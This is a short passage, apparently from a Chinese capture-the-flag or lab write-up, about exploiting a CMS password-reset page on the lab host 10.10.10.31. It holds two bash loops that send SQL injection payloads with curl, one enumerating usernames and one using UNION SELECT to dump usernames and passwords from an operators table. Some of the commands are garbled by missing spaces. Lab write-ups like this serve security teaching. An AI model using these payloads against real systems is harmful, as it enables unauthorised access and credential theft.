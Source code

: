 [![](assets/1703640271-e0929eefaa6a1e67fe6738801c8a57eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155430-004f9590-a3c4-1.png)

使用 limit 进行判断字段。

[![](assets/1703640271-74be0d7b74f143dad888c6cb3c8d6ed9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155436-03ba15e8-a3c4-1.png)

### 1.脚本测试

使用脚本枚举出了可用的用户名。

```plain
for i in{1..1000};do curl -s http://10.10.10.31/cmsdata/forgot.php --data-urlencode"email=a@b.c' or 1=1 limit ${i},1;-- -" | grep'<h2>' | awk'{print $5}' | grep-v"^with"||break;done
for i in $(seq 0 300); do
        payload="email=a@b.com' UNIoN SELECT 1,2,3,CONCAT(__username_, ':', __password_, '@b.com') FROM supercms.operators LIMIT 1 OFFSET $i-- -"
        curl -s -d "$payload" http://10.10.10.31/cmsdata/forgot.php | grep -o '[^ ]*@b.com'
        done
```
